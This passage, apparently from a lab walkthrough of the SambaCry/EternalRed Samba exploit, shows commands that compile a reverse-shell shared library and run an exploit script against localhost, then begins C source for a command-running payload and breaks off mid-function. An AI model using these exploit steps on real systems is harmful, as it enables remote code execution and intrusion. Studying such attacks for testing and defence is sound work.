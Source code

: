 ```
```
<br>
Compile the exploit then run, we will get a reverse shell:
<br>
```
gcc -c -fpic reverse.c
gcc -shared -o reverse.so reverse.o

./exploit.py -t localhost -e reverse.so \
             -s data -r /data/reverse.so \
             -u sambacry -p nosambanocry
			 
```
<br>
![reverseShell](/img/EternalRed/reverse.png)
<br>

<h3>Other Payloads</h3>
What if we want to do something else. For example, run a command. No problem, we need the same starting method name, the detachFromParent method and some small code to run our command. We will use just a system() function execution in this case which executes a command supplied to it as input.
For this test, I will create a new folder in /tmp called test. here is the code snippet I've used:
<br>
```
#include <stdio.h>
#include <unistd.h>
#include <netinet/in.h>
#include <sys/types.h>
#include <stdlib.h>
#include <string.h>
#include <sys/stat.h>

static void detachFromParent(void) {
    pid_t pid, sid;

    if ( getppid() == 1 ){
        return;
    }

    pid = fork();

    if (pid < 0) {
```